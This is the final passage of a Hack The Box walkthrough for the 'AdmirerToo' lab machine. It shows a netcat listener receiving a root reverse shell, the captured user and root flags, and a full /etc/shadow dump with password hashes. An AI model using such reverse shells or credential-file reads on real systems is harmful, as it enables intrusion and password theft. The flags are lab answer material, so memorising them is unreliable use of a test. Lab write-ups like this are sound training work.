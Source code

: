 Reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.137] 34928
bash: cannot set terminal process group (14620): Inappropriate ioctl for device
bash: no job control in this shell
root@admirertoo:/# id && cat ~/root.txt && hostname
id && cat ~/root.txt && hostname
uid=0(root) gid=0(root) groups=0(root)
54f21ac1641a6ec72be23bdfd993c1c1
admirertoo
root@admirertoo:/# 
```

# Trophy
![Untitled]({{page.screenshots}}Untitled%2015.png)

**User.txt**

c171776485c8d1852be98f88edbba763

**Root.txt**

54f21ac1641a6ec72be23bdfd993c1c1

**/etc/shadow**

```bash
root@admirertoo:/# cat /etc/shadow
cat /etc/shadow
root:$6$eP5MVyB1lXtVQgzU$H4xJdGiHfSu9JmUR80juqHC5BAca79yir2Z6bipW8s.DowTuNRo82/CjN7EMBK8lczD1AMYxgKTIp79DjN2R31:18817:0:99999:7:::
daemon:*:18815:0:99999:7:::
bin:*:18815:0:99999:7:::
sys:*:18815:0:99999:7:::
sync:*:18815:0:99999:7:::
games:*:18815:0:99999:7:::
man:*:18815:0:99999:7:::
lp:*:18815:0:99999:7:::
mail:*:18815:0:99999:7:::
news:*:18815:0:99999:7:::
uucp:*:18815:0:99999:7:::
proxy:*:18815:0:99999:7:::
www-data:*:18815:0:99999:7:::
backup:*:18815:0:99999:7:::
list:*:18815:0:99999:7:::
irc:*:18815:0:99999:7:::
gnats:*:18815:0:99999:7:::
nobody:*:18815:0:99999:7:::
_apt:*:18815:0:99999:7:::
systemd-timesync:*:18815:0:99999:7:::
systemd-network:*:18815:0:99999:7:::
systemd-resolve:*:18815:0:99999:7:::
messagebus:*:18815:0:99999:7:::
systemd-coredump:!!:18815::::::
opentsdb:*:18815:0:99999:7:::
hbase:!:18815:0:99999:7:::
mysql:!:18816:0:99999:7:::
jennifer:$6$LWi8tlOmIOw6zGZa$A5h4DjTnRwW3GhZnA288bi4zKk892yRGon5kBhKao3biY8AWo3.qTFdlEIAPJ.ebKewW31JWbbXlpl/r.aLIC/:18817:0:99999:7:::
sshd:*:18816:0:99999:7:::
Debian-exim:!:18827:0:99999:7:::
devel:!:18829:0:99999:7:::
```